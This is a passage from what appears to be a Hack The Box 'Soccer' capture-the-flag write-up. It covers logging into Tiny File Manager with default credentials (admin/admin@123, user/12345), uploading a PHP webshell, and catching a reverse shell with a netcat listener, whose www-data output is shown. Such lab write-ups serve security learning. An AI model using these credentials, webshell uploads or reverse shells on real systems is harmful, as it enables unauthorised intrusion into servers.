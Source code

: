*admin/admin@123*
*user/12345*

Using default credentials we were able to access the filemanager. 

![tiny-accessed](assets/postimages/soccer/tiny-accessed.png)


Tiny File Manager is a web application which provide basic file management capability to our server using a browser. Having access to the web application we can user used to download and upload files on the webserver. 

We can try to upload some webshell and check if there are any restriction on file type and if we can execute the webshell code.

I simly tryed to upload a basic **php** webshell and I used the browser to open it...

![webshell-upload](assets/postimages/soccer/reverse_shell.png)

After opening **xabaras.php** the php code is executed and shell is opened in the attacker machine.


{% highlight shell %}

xabaras@helix:~/workdir/ctf/htb/soccer.htb$ nc -nvlp 8000
Listening on 0.0.0.0 8000

Connection received on 10.10.11.194 46782
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 22:38:28 up  2:09,  2 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ $ 

{% endhighlight %}
